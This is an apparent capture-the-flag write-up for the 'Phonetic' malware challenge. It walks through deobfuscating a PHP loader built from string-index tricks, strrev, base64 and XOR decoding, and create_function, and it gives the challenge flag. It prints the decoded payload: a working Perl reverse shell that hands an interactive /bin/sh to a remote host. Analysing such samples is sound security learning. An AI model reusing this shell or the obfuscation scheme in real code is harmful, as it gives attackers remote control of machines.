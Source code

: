 # Phonetic - 362pt
--------------------------------------
## Topic sumary

This problem gives us file `Phonetic`, you can download it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic) 
Open it with notepad++
```php 
<?php  


 function deGRi($wyB6B, $w3Q12 = '') { $zZ096 = $wyB6B; $pCLb8 = ''; for ($fMp3G = 0; $fMp3G < strlen($zZ096);) { for ($oxWol = 0; $oxWol < strlen($w3Q12) && $fMp3G < strlen($zZ096); $oxWol++, $fMp3G++) { $pCLb8 .= $zZ096[$fMp3G] ^ $w3Q12[$oxWol]; } } return $pCLb8; }
/*iNsGNGYwlzdJjfaQJIGRtTokpZOTeLzrQnnBdsvXYlQCeCPPBElJTcuHmhkJjFXmRHApOYlqePWotTXHMuiuNfUYCjZsItPbmUiXSxvEEovUceztrezYbaOileiVBabK*/

$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$gbaylYLd6204 = "LmQ9AT8aND16c2AcMh0lCS9BDFtTATklDzA.......";/*a fucking string =))) */
$fsPwhnfn8423 = "";
$oZjuNUpA325 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

/*aajypPZLxFoueiuYpHkwIQbmoSLrNBGmiaDTgcWLKRANAfJxGeoOIzIjLBHHsVEHKTrhqhmFqWgapWrPsuMYcbIZBcXQrjWWEGzoUgWsqUfgyHtbwEDdQxcJKxGTJqIe*/

$k = $oZjuNUpA325('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
$c = $k("/*XAjqgQvv4067*/", $fsPwhnfn8423( deGRi($fsPwhnfn8423($gbaylYLd6204), "tVEwfwrN302")));
$c();

/*TnaqRZZZJMyfalOgUHObXMPnnMIQvrNgBNUkiLwzwxlYWIDfMEsSyVVKkUfFBllcCgiYSrnTCcqLlZMXXuqDsYwbAVUpaZeRXtQGWQwhcAQrUknJCeHiFTpljQdRSGpz*/
```
---------------------------------------------------------
WTF? are you kidding me =))) 
![](https://media.giphy.com/media/aZ3LDBs1ExsE8/giphy.gif)

I run the loops separately. it gives readable results :V
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([24,4,26,31,29,2,37,20,31,6,1,20,31] as $k){
   $fsPwhnfn8423 .= $lBuAnNeu5282[$k];
}
echo $fsPwhnfn8423; // base64_decode
```
```php
$lBuAnNeu5282 = ")o4la2cih1kp97rmt*x5dw38b(sfy6;envguz_jq/.0";
$fsPwhnfn8423 = "";
foreach([26,16,14,14,31,33] as $k){
   $oZjuNUpA325 .= $lBuAnNeu5282[$k];
}

echo $oZjuNUpA325; // strrev
```
Continue...
```php
echo strrev('n'.''.''.'o'.''.''.'i'.''.'t'.''.'c'.''.'n'.''.'u'.'f'.''.''.''.''.'_'.''.''.''.'e'.''.'t'.''.'a'.''.'e'.''.''.''.''.'r'.''.''.''.''.'c');
//create_function
```
Put together we get
```php
create_function("",base64_decode(deGRi(base64_decode(/*fuckin string*/), "tVEwfwrN302")));
```
Run it and we get another php file =))), it [here](https://github.com/Em0t3t/H-cktivityCon-2021-CTF/blob/main/Malware/resources/phonetic_decode.php)
I'm stuck here.... 
After a few minutes (actually hours .-.). I found some base64 strings in source code 
A string after decryption, it looks like this
```shell
#!/usr/bin/perl
use Socket;
$iaddr=inet_aton($ARGV[0]) || die("Error: $!\n");
$paddr=sockaddr_in($ARGV[1], $iaddr) || die("Error: $!\n");
$proto=getprotobyname('tcp');
socket(SOCKET, PF_INET, SOCK_STREAM, $proto) || die("Error: $!\n");
connect(SOCKET, $paddr) || die("Error: $!\n");
open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");
my $str = <<END;
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
`
end
END
system('/bin/sh -i -c "echo ${string}; bash"');
close(STDIN);
close(STDOUT);
close(STDERR)
```
Do you see it?
```shell
begin 644 uuencode.uu
F9FQA9WLY8C5C-#,Q,V0Q,CDU.#,U-&)E-C(X-&9C9#8S9&0R-GT`
```
![](https://media.giphy.com/media/JqDeI2yjpSRgdh35oe/giphy.gif)

Decode it~~~
`
flag{9b5c4313d12958354be6284fcd63dd26}
`
